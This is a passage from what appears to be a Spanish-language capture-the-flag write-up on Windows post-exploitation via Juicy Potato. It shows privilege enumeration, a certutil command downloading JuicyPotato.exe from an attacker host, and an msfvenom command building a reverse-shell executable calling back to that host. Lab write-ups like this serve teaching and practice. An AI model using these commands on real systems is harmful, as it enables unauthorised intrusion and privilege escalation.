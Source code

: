 ```batch
               3 archivos        819.745 bytes
               3 dirs  41.894.182.912 bytes libres

C:\Users\hacker\Downloads>type user.txt
type user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Jpotato">Escalando Privilegios con Juicy Potato</h2>

Si revisamos los privilegios de nuestro usuario, podemos encontrar que tenemos el **privilegio SeImpersonatePrivilege**:
```batch
C:\>whoami /priv
whoami /priv

INFORMACI�N DE PRIVILEGIOS
--------------------------

Nombre de privilegio          Descripci�n                                  Estado       
============================= ============================================ =============
SeChangeNotifyPrivilege       Omitir comprobaci�n de recorrido             Habilitada   
SeImpersonatePrivilege        Suplantar a un cliente tras la autenticaci�n Habilitada   
SeCreateGlobalPrivilege       Crear objetos globales                       Habilitada   
SeIncreaseWorkingSetPrivilege Aumentar el espacio de trabajo de un proceso Deshabilitado
```
Esto quiere decir que es vulnerable a **Juicy Potato**.

Puedes descargarlo de aquí:
* <a href="https://github.com/ohpe/juicy-potato" target="_blank">Repositorio de ohpe: Juicy Potato</a>

Una vez que lo tengas, mándalo a la máquina víctima utilizando **certutil.exe** y un servidor de **Python**:
```batch
C:\Temp>certutil.exe -f -urlcache -split http://Tu_IP/JuicyPotato.exe JuicyPotato.exe
certutil.exe -f -urlcache -split http://Tu_IP/JuicyPotato.exe JuicyPotato.exe
****  En l�nea  ****
  000000  ...
  054e00
CertUtil: -URLCache comando completado correctamente.
```
Funciono correctamente.

Ahora, vamos a generar una **Reverse Shell** con **msfvenom** que es la ocuparemos con **Juicy Potato**:
```batch
msfvenom -p windows/shell_reverse_tcp LHOST=Tu_IP LPORT=1337 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```
